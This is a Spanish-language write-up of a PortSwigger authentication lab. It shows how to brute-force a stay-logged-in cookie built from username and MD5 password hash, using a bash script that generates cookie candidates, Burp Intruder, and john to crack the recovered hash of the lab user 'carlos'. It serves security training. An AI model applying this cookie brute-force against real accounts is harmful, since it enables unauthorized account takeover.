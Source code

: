 ```yaml
---
title: Authentication Lab 9
date: 2025-01-29 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Authentication
tags:
  - Authentication
  - Brute-forcing a stay-logged-in cookie
image:
  path: /assets/img/Authentication-Lab-9/Portswigger.png
---
```


## Skills

- Brute-forcing a stay-logged-in cookie

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Para `resolver` el `laboratorio`, debemos `realizar` un `ataque` de `fuerza bruta` sobre la `cookie` de Carlos para `acceder` a `Mi account`. Podemos usar nuestras credenciales `wiener:peter` para iniciar sesión, el `nombre de usuario` de la `víctima` es `carlos` y podemos usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) para `bruteforcear` la `contraseña`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Authentication-Lab-9/image_1.png)

Pulsamos sobre `My account`, nos `logueamos` usando las credenciales `wiener:peter` y marcamos la casilla de `Stay logged in`

![](/assets/img/Authentication-Lab-9/image_2.png)

En el caso de que introdujésemos `dos veces` la `contraseña incorrecta` nos `bloquearía` y deberíamos `esperar 1 minuto` para volver a intentar `introducir` las `credenciales`

![](/assets/img/Authentication-Lab-9/image_3.png)

`Rellenamos` el campo `Email`, `pulsamos` en `Update email` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Authentication-Lab-9/image_4.png)

Si nos fijamos bien el campo `stay-logged-in` de la `cookie` está `compuesto` por el `nombre` de `usuario` y la `contraseña`

![](/assets/img/Authentication-Lab-9/image_5.png)

`Identificamos` el `tipo` de `hash` con el que se `cifra` la `contraseña`, para ello podemos usar `webs` como [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier)

![](/assets/img/Authentication-Lab-9/image_6.png)

Otra opción sería usar `herramientas` como `hash-identifier`

```
# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 51dc30ddc473d43a6011e9ebba6ca770

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
[+] MD2(HMAC)
[+] MD5(HMAC(Wordpress))
[+] Haval-128
[+] Haval-128(HMAC)
[+] RipeMD-128
[+] RipeMD-128(HMAC)
[+] SNEFRU-128
[+] SNEFRU-128(HMAC)
[+] Tiger-128
[+] Tiger-128(HMAC)
[+] md5($pass.$salt)
[+] md5($salt.$pass)
[+] md5($salt.$pass.$salt)
[+] md5($salt.$pass.$username)
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($pass.$salt))
[+] md5($salt.md5($salt.$pass))
[+] md5($salt.md5(md5($pass).$salt))
[+] md5($username.0.$pass)
[+] md5($username.LF.$pass)
[+] md5($username.md5($pass).$salt)
[+] md5(md5($pass))
[+] md5(md5($pass).$salt)
[+] md5(md5($pass).md5($salt))
[+] md5(md5($salt).$pass)
[+] md5(md5($salt).md5($pass))
[+] md5(md5($username.$pass).$salt)
[+] md5(md5(md5($pass)))
[+] md5(md5(md5(md5($pass))))
[+] md5(md5(md5(md5(md5($pass)))))
[+] md5(sha1($pass))
[+] md5(sha1(md5($pass)))
[+] md5(sha1(md5(sha1($pass))))
[+] md5(strtoupper(md5($pass)))
--------------------------------------------------
```

Para `confirmar` que es `MD5` usamos este comando y vemos que `ambos hashes coinciden`

```
# echo -n 'peter' | md5sum | awk '{print $1}'
51dc30ddc473d43a6011e9ebba6ca770
```

Vemos que podemos `eliminar` el `parámetro session` y el servidor nos `asigna` una `cookie` de acuerdo al parámetro `stay-logged-in`

![](/assets/img/Authentication-Lab-9/image_7.png)

Si intentamos acceder a `/my-account?id=carlos` con el y el `stay-logged-in` tiene las `credenciales incorrectas` nos hará un `redirect` a `/login`. Sin embargo, si lo hacemos con las `credenciales correctas` nos `devolverá` un `200 OK` y no habrá ningún redirect, podemos usar esto para `bruteforcear` la `contraseña` del usuario `carlos` y `acceder` a su `cuenta`

![](/assets/img/Authentication-Lab-9/image_8.png)

Para `crear` este `valor` de la `cookie` vamos a usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) y este `script` en `bash`

```
#!/bin/bash

while IFS= read -r line
do
  username="carlos"
  md5_hashed_password=$(echo -n "$line" | md5sum | awk '{print $1}')
  base64_hashed_password="$username:$md5_hashed_password"
  echo -n "$base64_hashed_password" | base64 >> hashed_passwords.txt
done < "passwords.txt"
```

`Mandamos` la `petición` al `Intruder` y ahí `marcamos` el `campo` de la `cookie` a `bruteforcear`

![](/assets/img/Authentication-Lab-9/image_9.png)

`Cargamos` el `diccionario` creado

![](/assets/img/Authentication-Lab-9/image_10.png)

Otra forma de `bruteforcear` sería usando las `contraseñas` de `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) y luego `procesar` el `payload` con `Burpsuite`

![](/assets/img/Authentication-Lab-9/image_11.png)

Si la `contraseña` es la `correcta` nos `devuelve` el `código de estado 200`, así que `filtramos` por `código` de `estado` y `obtenemos` el `hash`

![](/assets/img/Authentication-Lab-9/image_12.png)

`Obtenemos` la `contraseña` del usuario `carlos`

```
# echo 'Y2FybG9zOjkxY2IzMTVhNjQwNWJmY2MzMGUyYzQ1NzFjY2ZiOGNl' | base64 -d
carlos:91cb315a6405bfcc30e2c4571ccfb8ce 
```

El `payload` usado para la `petición` es el `número 83`, por lo tanto podemos usar awk` `para `obtener` esa `línea` del `diccionario` de contraseñas

```
# awk 'NR==83' passwords.txt 
chelsea
```

Otra forma sería `creando` un `archivo` con el hash `91cb315a6405bfcc30e2c4571ccfb8ce` en su interior y `bruteforcearlo` con `john`

```
# john --format=raw-MD5 -w passwords.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
chelsea          (?)     
1g 0:00:00:00 DONE (2025-01-29 11:40) 100.0g/s 38400p/s 38400c/s 38400C/s 123456..larry
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

`Iniciamos sesión` en la `cuenta` de `carlos`

![](/assets/img/Authentication-Lab-9/image_13.png)

![](/assets/img/Authentication-Lab-9/image_14.png)
